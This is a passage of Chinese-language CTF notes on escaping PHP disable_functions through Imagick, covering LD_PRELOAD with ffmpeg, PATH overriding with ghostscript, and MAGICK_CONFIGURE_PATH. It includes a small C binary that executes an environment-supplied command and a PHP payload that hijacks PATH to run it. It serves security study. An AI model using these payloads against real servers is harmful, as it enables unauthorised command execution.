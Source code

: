 ### LD_PRELOAD + ffpmeg

当 Imagick 处理的文件是如下后缀的时候，就会调用外部程序 ffmpeg 去处理该文件:

```php
wmv mov m4v m2v mp4 mpg mpeg mkv avi 3g2 3gp
```

- [Link](https://hxp.io/blog/53/0CTF-Quals-2019-Wallbreaker-easy-writeup/)

### 覆盖 Path + ghostscript

Linux 中万物皆文件，执行一个命令的实质其实是执行了一个可执行文件，而系统正是通过 `PATH` 环境变量找到命令对应的可执行文件，当输入命令的时候，系统就会去`PATH` 变量记录的路径下面寻找相应的可执行文件。可以通过 `putenv` 覆盖这个变量为我们可以控制的路径，再将恶意文件上传，命名成对应的命令的名字，程序在执行这个命令的时候，就会执行我们的恶意文件。

造一个可执行文件 `gs`:

```c++
#include <stdlib.h>
#include <string.h>
int main() {
    unsetenv("PATH");
    const char* cmd = getenv("CMD");
    system(cmd);
    return 0;
}
```

payload:

```php
putenv('PATH=/tmp/mydir');
putenv('CMD=/readflag > /tmp/mydir/output');
chmod('/tmp/mydir/gs','0777');
$img = new Imagick('/tmp/mydir/1.ept');
```

### MAGICK_CONFIGURE_PATH

我们在 Github 上查看 ImageMagick 的源码，在官方给出的 QuickStart.txt 中可以看到这样的内容：

```php
Configuration Files

      ImageMagick depends on a number of external configuration files which
      include colors.xml, delegates.xml, and others.
      ImageMagick searches for configuration files in the following order, and
      loads them if found:

          $MAGICK_CONFIGURE_PATH
          $MAGICK_HOME/etc/ImageMagick
          $MAGICK_HOME/share/ImageMagick-7.0.2/config
          $HOME/.config/ImageMagick/
          <client path>/etc/ImageMagick/
          <current directory>/
```
